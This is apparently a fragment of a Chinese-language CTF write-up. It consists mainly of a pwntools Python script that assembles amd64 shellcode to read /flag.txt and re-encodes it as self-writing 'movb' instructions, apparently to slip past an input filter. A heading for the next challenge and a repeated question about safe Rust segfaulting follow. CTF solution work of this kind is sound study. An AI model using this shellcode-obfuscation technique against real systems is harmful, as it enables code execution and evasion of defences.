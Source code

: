 ```python
from pwn import *
from base64 import b64encode
code = shellcraft.amd64.linux.cat("/flag.txt")

print(code)
byt = asm(code, arch='amd64')
print(byt.hex())
l = len(byt)
print(len(byt))

asms = []
for (i, b) in enumerate(byt):
    asms.append(f"movb [rip+{ l * 7 - 0x7 * i + i - 6 } ], {b}")
shellcode = asm('\n'.join(asms), arch="amd64")
with open("prob10/a.bin", "wb") as f:
    f.write(shellcode)

print(shellcode)
print(b64encode(shellcode))
```

![image-20221126121533958](assets/image-20221126121533958.png)

## 编原译理习题课 · 实验班

安全的 Rust 代码怎么会段错误呢？？？

安全的 Rust 代码怎么会段错误呢？？？
